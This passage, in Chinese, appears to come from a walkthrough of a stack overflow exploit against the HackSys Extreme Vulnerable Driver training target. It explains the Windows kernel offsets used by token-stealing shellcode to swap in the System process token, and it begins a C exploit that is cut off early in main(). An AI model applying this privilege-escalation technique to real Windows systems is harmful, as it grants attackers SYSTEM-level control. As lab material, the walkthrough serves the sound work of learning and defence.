 `_KAPC_STATE`偏移 0x10 处存储的是指向`_KPROCESS`指针：

```
ntdll!_KAPC_STATE
   +0x000 ApcListHead      : [2] _LIST_ENTRY
   +0x010 Process          : Ptr32 _KPROCESS
   +0x014 KernelApcInProgress : UChar
   +0x015 KernelApcPending : UChar
   +0x016 UserApcPending   : UChar

```

而`_EPROCESS`结构第一项即为`_KPROCESS`，故获取到指向`_KPROCESS`指针等同于获取到`_EPROCESS`地址：

```
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x098 ProcessLock      : _EX_PUSH_LOCK
   +0x0a0 CreateTime       : _LARGE_INTEGER
   +0x0a8 ExitTime         : _LARGE_INTEGER
   +0x0b0 RundownProtect   : _EX_RUNDOWN_REF
   +0x0b4 UniqueProcessId  : Ptr32 Void
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY
   +0x0c0 ProcessQuotaUsage : [2] Uint4B
   +0x0c8 ProcessQuotaPeak : [2] Uint4B
   +0x0d0 CommitCharge     : Uint4B
   +0x0d4 QuotaBlock       : Ptr32 _EPROCESS_QUOTA_BLOCK
   +0x0d8 CpuQuotaBlock    : Ptr32 _PS_CPU_QUOTA_BLOCK
   +0x0dc PeakVirtualSize  : Uint4B
   +0x0e0 VirtualSize      : Uint4B
   +0x0e4 SessionProcessLinks : _LIST_ENTRY
   +0x0ec DebugPort        : Ptr32 Void
   +0x0f0 ExceptionPortData : Ptr32 Void
   +0x0f0 ExceptionPortValue : Uint4B
   +0x0f0 ExceptionPortState : Pos 0, 3 Bits
   +0x0f4 ObjectTable      : Ptr32 _HANDLE_TABLE
   +0x0f8 Token            : _EX_FAST_REF
    ......

```

由此`mov eax,[eax + 0x50]`指令中 0x50 偏移用于获取`_EPROCESS`。通过`ActiveProcessLinks`字段可以实现进程遍历 (`mov eax,[eax + 0xb8]`与`sub eax,0xb8`)，查找`UniqueProcessId`字段等于 4 的进程 (System 进程 PID 为 4，`cmp[eax + 0xb4],edx`)。最后通过`mov edx,[eax + 0xf8]`与`mov[ecx + 0xf8],edx`两条指令替换 Token。

 

`xor eax,eax;pop ebp;retn 8`返回 STATUS_SUCCESS 给`IrpDeviceIoCtlHandler`函数：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_JBETN849U9UJ5KE.jpg)

 

完整 Exploit 如下：

```
#include #include #define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK                         IOCTL(0x800)
 
int main()
{
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",GENERIC_READ | GENERIC_WRITE,NULL,NULL,OPEN_EXISTING,NULL,NULL);
    if (dev == INVALID_HANDLE_VALUE)
    {
        printf("Failed!\n");
        system("pause");
```